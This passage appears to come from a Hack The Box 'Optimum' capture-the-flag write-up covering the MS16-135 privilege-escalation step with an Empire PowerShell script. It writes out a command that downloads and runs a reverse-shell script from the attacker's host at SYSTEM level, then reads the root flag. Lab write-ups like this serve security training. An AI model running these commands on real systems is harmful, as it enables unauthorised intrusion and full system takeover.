 ### MS16-135

We can use the [pre-built PS1 script from within PowerShell Empire](https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/privesc/Invoke-MS16135.ps1) for this exploit.

>NOTE: You'll run into errors when running, unless you manually delete all the white-space/tabs from before any line containing `"@`. For some reason the linked script was buggy, and required me to debug it before it would run correctly. [More information here](https://damiankarlson.com/2011/08/04/quick-tip-powershell-here-strings-dont-like-whitespace/).

Copy the script locally, and add `Invoke-MS16135 -Command "iex(New-Object Net.WebClient).DownloadString('http://10.10.14.20/revshell2.ps1')"` to the bottom, just like before. In this case `revshell2.ps1` is a copy of `revshell.ps1`, but with the port number pointing to 7700 instead of 7500, like before. The MS16-135 exploit script will trigger the exploit, and run the `revshell2.ps1` script with SYSTEM rights.

![](/assets/htb-optimum/ms16135_run.png)

![](/assets/htb-optimum/system_shell.png)

We can read `root.txt` from `C:\Users\Administrator\Desktop\root.txt`.

![](/assets/htb-optimum/root_proof.png)




